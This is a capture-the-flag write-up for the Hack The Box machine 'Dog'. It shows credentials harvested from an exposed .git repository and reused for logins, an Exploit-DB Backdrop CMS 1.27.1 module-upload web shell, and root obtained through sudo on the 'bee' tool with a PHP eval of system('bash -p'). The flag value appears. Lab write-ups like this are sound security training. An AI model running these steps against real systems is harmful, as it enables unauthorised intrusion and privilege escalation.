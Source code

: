![https://app.hackthebox.com/machines/660](https://app.hackthebox.com/machines/651)

## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
```

```
+ http://10.10.11.58/.git/HEAD (CODE:200|SIZE:23)       
==> DIRECTORY: http://10.10.11.58/core/                 
==> DIRECTORY: http://10.10.11.58/files/  
```

since the site was inaccessible at the time I attempted the enum, I decide to dig through the files, I find the mention of **Backdrop CMS** in [http://10.10.11.58/core/profiles/minimal/minimal.info](http://10.10.11.58/core/profiles/minimal/minimal.info):

```info
name = Minimal
description = Start with only a few modules enabled.
version = BACKDROP_VERSION
backdrop = 1.x
type = profile
hidden = TRUE

dependencies[] = node
dependencies[] = dblog
dependencies[] = layout

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

so I have this info:

Backdrop CMS : 1.27.1

I find a vuln that I could exploit once logged in:
`Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)`

I keep that aside.

I also find: [http://10.10.11.58/.git/logs/HEAD](http://10.10.11.58/.git/logs/HEAD) (I could probably reconstruct the repo!)

`root <dog@dog.htb> 1738963331 +0000	commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases`

which could also indicate a lead.

I launch ffuf (machine bug was preventing dirb from giving results)

```
ffuf -u http://10.10.11.58/FUZZ -w /usr/share/dirb/wordlists/common.txt -timeout 5 -t 10 -o result.json -of json
```

| URL                      | Code | Duration | Size | Notes                                      |
| ------------------------ | ---- | -------- | ---- | ------------------------------------------ |
| `/`                      | 200  | 63 ms    | 0    | Empty or redirected home page              |
| `/.git/HEAD`             | 200  | 68 ms    | 23   | found earlier                              |
| `/index.php`             | 200  | 65 ms    | 0    | Existing PHP file but empty                |
| `/robots.txt`            | 200  | 65 ms    | 1198 | To read, might contain hidden paths        |
| `/core/` (via `/core`)   | 301  | 78 ms    | 309  | found earlier                              |
| `/files/` (via `/files`) | 301  | 70 ms    | 310  | same                                       |
| `/layouts/`              | 301  | 58 ms    | 312  | Existing directory, redirected             |
| `/modules/`              | 301  | 59 ms    | 312  | Potentially interesting                    |
| `/sites/`                | 301  | 67 ms    | 310  | same                                       |
| `/themes/`               | 301  | 64 ms    | 311  | same                                       |
| `/.hta`                  | 403  | 57 ms    | 276  | ⚠️ Access denied (sensitive file?)         |
| `/.htpasswd`             | 403  | 53 ms    | 276  | ⚠️ Classic restriction file, access denied |
| `/server-status`         | 403  | 60 ms    | 276  | Apache status denied, good service sign    |

here’s the content of robots.txt:

```
...
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
...
```

I also find a key piece of info here:
[http://10.10.11.58/files/config\_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json](http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json)

`"tiffany@dog.htb"` a possible username to test? but I’m missing the password, I might find it in some config files!

I’m going to download the .git and restore it:

```bash
wget --mirror -I .git http://10.10.11.58/.git/
sudo git restore .
```

and I find interesting files:

```
ls

LICENSE.txt  README.md  core  files  index.php  layouts  robots.txt  settings.php  sites  themes
```

I dig into settings.php and find several useful things:

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

I can try the username `tiffany` and the password `BackDropJ2024DS2024`

and it works!

## INITIAL ACCESS

Now that I’m authenticated, time for the RCE vuln!

[https://www.exploit-db.com/exploits/52021](https://www.exploit-db.com/exploits/52021)

I enter the url:

```
python exploit.py http://10.10.11.58                                     
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

and I’ll upload the malicious module!

and I access it here: [http://10.10.11.58/modules/shell/shell.php](http://10.10.11.58/modules/shell/shell.php)

I can execute commands so I generate a revshell payload and gain acces to the machine.

### OWN USER

once on the machine I launch linpeas.sh:

I find 3 users:

```
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

after long analysis, I find nothing interesting so I try the password found earlier to log into the accounts

```
www-data@dog:/var/www/html/modules/shell$ su johncusack
su johncusack
Password: BackDropJ2024DS2024
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
ls
whoami
johncusack
```

and it works! I connect via ssh and relaunch linpeas.sh!

```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

perfect! what does bee do?

```
/usr/local/bin/bee
🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]
```

so we have the possibility to execute code as root!

if I look at the options that will be useful:

```
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.
```

so to specify the installation, here `/var/www/html`

```
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

knowing that php can execute system commands, it’s perfect.

```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('id');"
uid=0(root) gid=0(root) groups=0(root)
```

it’s indeed root, so now just switch to a shell:

```
johncusack@dog:/tmp$ sudo /usr/local/bin/bee --root=/var/www/html eval "system('bash -p');"
root@dog:/var/www/html# ls /root
root.txt
root@dog:/var/www/html# cat /root/root.txt
f0a050cdb9b12eda1af7bb06b2eae6c3
```
